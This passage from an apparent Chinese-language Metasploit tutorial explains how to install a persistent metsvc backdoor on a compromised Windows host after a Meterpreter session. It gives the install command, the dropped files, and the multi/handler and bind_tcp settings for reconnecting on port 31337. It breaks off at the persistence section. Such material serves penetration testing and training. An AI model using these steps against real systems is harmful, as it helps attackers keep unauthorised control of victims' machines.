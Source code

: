 Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```
![](img/4.png)
命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。

3)链接后门
```
use exploit/multi/handler
```
payload设置为windows/metsvc_bind_tcp
```
set payload windows/metsvc_bind_tcp
```
然后设置目标ip和绑定端口31337
```
set rhost 192.168.100.84
```
```
set lport 31337
```
运行程序
```
run
```
## 2.persistence